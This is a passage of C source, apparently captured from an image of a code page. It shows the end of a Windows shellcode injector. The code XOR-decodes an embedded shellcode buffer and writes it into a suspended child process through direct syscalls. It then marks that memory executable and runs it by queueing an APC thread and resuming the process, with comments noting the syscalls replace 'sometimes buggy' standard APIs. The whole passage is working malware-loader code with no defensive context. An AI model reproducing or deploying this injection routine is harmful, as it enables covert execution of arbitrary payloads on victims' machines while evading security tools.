 ```
//    }

    /* Direct syscalls - xorred shellcode */
    for (int i = 0; i < szShellcode; i++) {
	    char DecodedOpCode = shellcode[i] ^ 0xda;

		NTSTATUS WriteProcessMemoryStatus = NtWriteVirtualMemory(pi.hProcess, ((char*)shellcodeBaseAddress) + i, &DecodedOpCode, sizeof(char), NULL);
		if (WriteProcessMemoryStatus != 0) {
#ifdef _DEBUG
		    printf("Writing the shellcode memory to remote process using WriteProcessMemory failed: %x\n", WriteProcessMemoryStatus);
#endif
			return 1;
		}
	}

    DWORD OldProtectt = 0;
    BOOL virtualProctectExStatus = VirtualProtectEx(pi.hProcess, shellcodeBaseAddress, sizeof(shellcode), PAGE_EXECUTE_READ, &OldProtectt);
#ifdef _DEBUG
    if (!virtualProctectExStatus) {
        printf("Switching the protection of shellcode memory to PAGE_EXECUTE_READ using VirtualProtectEx failed: %x\n", GetLastError());
        return 1;
    }
#endif

    /* Standard API - sometimes buggy */
//    PTHREAD_START_ROUTINE pfnAPC = (PTHREAD_START_ROUTINE)shellcodeBaseAddress;
//	if (!QueueUserAPC((PAPCFUNC)pfnAPC, pi.hThread, NULL)) {
//#ifdef _DEBUG
//        printf("Queing the APC thread failed with: %x\n", GetLastError());
//#endif
//		return -1;
//	}

    /* Direct syscall */
    NTSTATUS NtQueueApcThreadStatus = NtQueueApcThread(pi.hThread, (PKNORMAL_ROUTINE)shellcodeBaseAddress, 0, 0, 0);
    if (NtQueueApcThreadStatus != 0) {
#ifdef _DEBUG
        printf("Queing the APC thread failed with: %x\n", NtQueueApcThreadStatus);
#endif
        return 1;
    }

    Sleep(100);

	ResumeThread(pi.hThread);

	return 0;
}
```
